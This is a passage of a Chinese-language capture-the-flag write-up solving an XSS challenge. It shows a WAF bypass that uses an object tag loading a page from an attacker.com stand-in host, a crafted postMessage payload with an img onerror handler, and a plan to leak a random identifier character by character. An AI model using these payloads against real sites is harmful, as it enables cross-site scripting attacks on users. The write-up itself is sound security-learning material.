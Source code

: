 [![](https://p1.ssl.qhimg.com/t0171204d446124eff2.png)](https://p1.ssl.qhimg.com/t0171204d446124eff2.png)

尝试插入一个外部网页，成功

```
&lt;object data=https://attacker.com/xss-poc.html onload=xss&gt;&lt;/object&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01213a77e906916610.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019715ea63ee8bc585.png)

下面，验证通过`window.postMessage`控制消息值，达到触发xss的条件。按照这个思路，验证self-xss可行性。可以看到当我们的输入经过waf处理后，`e.data.type='waf'` `e.data.identifer='(事先生成的随机值)''` `e.data.str='payload'` `e.data.safe='true'or 'false'`：

[![](https://p1.ssl.qhimg.com/t0146786909ce96327d.png)](https://p1.ssl.qhimg.com/t0146786909ce96327d.png)

从前面的分析可以知道，只有`safe=true`时，构造的payload才能被赋值给`div.innerHTML`。结合上述条件，这里构造消息信息如下，传递时为`e`，即可绕过waf的过滤检测：

```
window.postMessage(`{`
        type: 'waf',
        identifier: "tze8f445ssb7",
        str: '&lt;img src=x onerror=alert("flag`{`THIS_IS_THE_FLAG`}`")&gt;',
        safe: true
      `}`, '*')
```

[![](https://p3.ssl.qhimg.com/t0114e7a8ce30bbf1d8.png)](https://p3.ssl.qhimg.com/t0114e7a8ce30bbf1d8.png)

通过`postMessage`触发xss的思路可行，仅在self-xss条件下可行，因为`identifier`的值是随机生成的，需要突破该限制。

截止目前，我的思路整理如下：
- 绕过waf （构造形如`&lt;object data=XXXXXXX onload=xss&gt;&lt;/object&gt;`的payload可以bypass waf，同时`onXXX=`没有被禁止，可以加载外部页面 ）
- 通过`postMessage`触发xss（self-xss验证可行，可以通过外部页面发送消息）
- 突破`identifier`随机值的限制
为了突破`identifier`随机值的限制，我首先想到的是能不能像**SQLi 盲注那这样通过特定的反馈，将值一位一位的试出来**。由于`identifier`是本站生成的，如何在跨站的条件下降该值泄露出来，是关键点的思路。此外，我还发现了一些有趣的点： `window.neme=""` 可能可以利用，通过特殊方式的将泄露出的字段写入`top.name`中。

为了能将`identifier`一位一位泄露出来，需要构造比较。它的构成只包含`0-9a-z`：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d84fa0cb882cc910.png)

那么如何判断每一位值是多少呢，这有由于禁止`[]`，所以无法使用`identifier[i]`的形式来构造字串进行按位比较。不过我们可以利用以下的规律：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0198911e7e8778e59e.png)
